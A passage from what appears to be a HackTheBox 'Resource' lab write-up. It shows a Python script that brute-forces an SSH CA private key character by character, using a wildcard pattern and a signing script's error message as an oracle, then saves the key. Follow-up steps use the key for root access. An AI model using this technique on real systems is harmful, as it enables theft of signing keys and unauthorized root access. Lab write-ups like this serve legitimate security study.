 ```python
    while True:
        found = False
        for char in chars:
            pattern = base_pattern + char + '*'

            stdout, stderr = run_signing_command(pattern)

            if "Error: Use API for signing with this CA." in stdout:
                base_pattern += char
                found = True
                print(f"{base_pattern}")
                break
        if not found:
            break
    return pattern

if __name__ == '__main__':
    ca_key = brute_force_patterns()
    if "-----END OPENSSH PRIVATE KEY-----" in ca_key:
        print("\n\nSuccess\n")
        file = open("ca-it", "w")
        file.write(ca_key)
        file.close()
    else:
        exit("\n\nFail\n") 
```

</details>

![](https://github.com/architmadankar/HackTheBox/blob/d00b457220eb66504d318b44db75c7a93e925ca6/resource.htb/ss/Screenshot%20from%202024-08-07%2021-56-23.png)

the exploit will take some time to bruteforce key file

after the successfully executing the script save the ssh private key in your local machine as root.key

then do 

```bash
ssh-keygen -f root
```
